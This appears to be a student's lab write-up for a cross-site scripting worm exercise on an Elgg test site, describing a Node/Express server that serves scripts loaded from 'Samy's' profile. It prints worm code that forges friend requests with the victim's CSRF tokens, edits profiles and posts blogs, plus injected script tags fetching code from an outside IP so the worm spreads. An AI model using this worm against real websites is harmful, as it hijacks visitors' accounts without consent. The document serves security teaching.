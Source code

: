 # Setup
In this assignment I am creating a server using node js and express. By the help of express I am broadcasting some scripts. By the following code snippet the script_{id}.js is recieved by the victim who is visiting Samy´s profile and the code in the script_{id}.js is executed in his browser.
```html
<script type=text/javascript src=http://20.249.212.251:3030/script_{id}.js></script>
```
The above code is in the description of Samy´s profile.

![server image](./screen-shots/fetching-scripts.png)

# Task 1
In this task I have to make the victim send a friend request to Samy while visiting Samy´s profile. To achieve the goal I first observed the requests sent while friend request is sent. I copied the url. I also have to gather the __elgg_ts and __elgg_token values that I get from elgg object. I used string interpolation to generate the request url and use fetch method to trigger the request.

```javascript
const script_1 = async () => { await fetch(`http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=${elgg.security.token.__elgg_ts}&__elgg_token=${elgg.security.token.__elgg_token}&__elgg_ts=${elgg.security.token.__elgg_ts}&__elgg_token=${elgg.security.token.__elgg_token}`); }
```

![task1 image](./screen-shots/sending-friend-request.png)

# Task 2
In this task I have to make some changes in the victim´s profile. So my approach was as usual. I observed the requests sent while updating profile. Copy the url and request payload. Build my form data body. Create the option object for fetch function and hit the server.

```javascript
    if (elgg.session.user.guid != 59) {
        await fetch(url, {
            method: `POST`,
            body: formData
        })
    }
```
There was a challenge to make the worm functional in such a way that the attacker don´t get damaged by the worm. So I checked before hitting the server that the user is Samy or not. 

# Task 3
This task was similar to task 2. I just observed the sites behavior on posting a blog. Figure out the form body format. Built a similar form data and call the fetch function with appropriate options object.

![task3 image](./screen-shots/requests-saving-blog-and-editing-profile.png)

# Task 4
In task 2 I changed user profile. While changing user profile I set description field by my department Id with script links in the following way,
```javascript
    const link_1=`<script type=text/javascript src=http://20.249.212.251:3030/script_1.js></script>`
    const link_2=`<script type=text/javascript src=http://20.249.212.251:3030/script_2.js></script>`
    const link_3=`<script type=text/javascript src=http://20.249.212.251:3030/script_3.js></script>`
    const link=`<script type=text/javascript src=http://20.249.212.251:3030/script.js></script>`

    formData.set(`description`, `<p>1805066</p>${link}${link_1}${link_2}${link_3}`);
```
Thus the bad scripts become linked with our next victim who visit Samy´s profile or any of the previous victims. 
